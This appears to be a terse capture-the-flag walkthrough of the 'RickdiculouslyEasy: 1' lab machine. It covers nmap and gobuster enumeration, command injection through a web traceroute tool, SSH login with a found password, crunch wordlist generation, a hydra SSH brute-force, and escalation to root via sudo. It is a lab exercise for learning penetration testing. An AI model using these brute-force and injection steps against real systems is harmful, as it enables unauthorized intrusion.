


# RICKDICULOUSLYEASY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.5 -oN full_service_enum-sC.txt`

`nmap -sV -sU -F  -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum dir
`gobuster dir -u http://192.168.196.5 -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info-slash.txt`

`gobuster dir -u http://192.168.196.5 -w /usr/share/wordlists/dirb/big.txt -t 50 -o info.tx`

### 1.3.2 Robots.txt

### 1.3.3 Passwords.html

One password: winter

### 1.3.4 Tracertool

Is possible concatenate other commands with semicolon. But `cat` is blocked.
However `head` and `tail` are usable.

Now users have been enumerated.

# 2 Exploitation
## 2.1 SSH as Summer
And with the previously enumerated Summer user combined with the password `winter`, we can login.

# 3 Post-exploitation

The zip file needs password to be extracted:

And in the file `Safe_Password.jpg`, using `strings` command to get all possible strings, there is a possible password:

Here's another password (131333):

We can use in the safe file binary:

https://rickandmorty.fandom.com/wiki/Rick_Sanchez

## 3.1 Crunch to generate wordlist
Following this tips:
- 1 upper
- 1 digit
- one of the following words (the flesh curtains)

`crunch 5 5 -t ,%The >> wordlist.txt`
`crunch 7 7 -t ,%Flesh >> wordlist.txt`
`crunch 10 10 -t ,%Curtains >> wordlist.txt`

## 3.2 Brute-force ssh with Hydra
`hydra -l RickSanchez -P wordlist.txt 192.168.196.4 ssh -s 22222 -I`

RickSanchez:P7Curtains

## 3.3 Su command as RickSanchez

## 3.4 Root usind sudo permission
